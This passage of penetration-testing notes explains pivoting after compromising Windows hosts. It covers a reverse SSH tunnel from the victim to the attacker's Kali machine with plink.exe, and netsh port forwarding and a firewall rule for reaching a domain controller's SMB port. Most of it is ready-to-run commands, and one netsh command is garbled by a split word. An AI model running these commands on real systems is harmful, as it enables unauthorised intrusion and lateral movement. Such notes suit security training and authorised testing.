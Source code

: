 Post compromising a windows-based server, you may need to interact with local ports on the same machine or different machine thus we use \[Plink.exe]. It can also be used if you found an open port on the target machine which you can't interact with from your kali machine because it may be blocked by the firewall. Transnfer it to the target machine and run the command on the windows victim.

```
C:\cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

\[10.11.0.4] is your kali machine ip address. Make sure you run \[SSH server] on your kali machine. This will establish SSH tunnel between windows and kali through which any connection to kali will be redirected to windows on port \[3306] which is blocked by the firewall. #On Kali machine, we can run the nmap scan to interact with port \[3306] on the windows server

```
root@kali:~$sudo nmap -sS -sV 127.0.0.1 -p 1234
```

#### Using NetSH.EXE

We use this tool if we have compromised a windows client and after elevating privileges to SYSTEM. Another requirement is that \[IP Helper service] must be running and \[IPV6 support] must be turned on in network adapter settings. The scenario here is that you have compromised a windows 10 machine that is part of a domain controller. Say it's windows server 2016. Windows server 2016 which is the domain controller is running services internally on ports you can't interact with from your kali machine thus you use \[NetSh.exe]. Transfer it to the Windows 10 machine. #The following command will redirect connections from the compromised windows client to the windows 2016 server running the port which is blocked by the firewall. This command is run on the compromised windows 10:

```
C:\netsh interface portproxy add v4tov4 listenport=4455 listenaddres s=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```

\[10.11.0.22] IP of the compromised windows client \[192.168.1.110] IP of the windows server 2016 machine #Next step is allowing inbound connections on port \[445] with a specific windows firewall rule on the windows 10 machine.

```
C:\netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

\#On the kali machine, we need to enable or configure Samba with \[SMBV2]

```
root@kali:~$sudo nano /etc/samba/smb.conf
root@kali:~$cat /etc/samba/smb.conf
```

Add

```
min protocol = SMB2
```

Restart \[SMB]

```
root@kali:~$sudo /etc/init.d/smbd restart
```

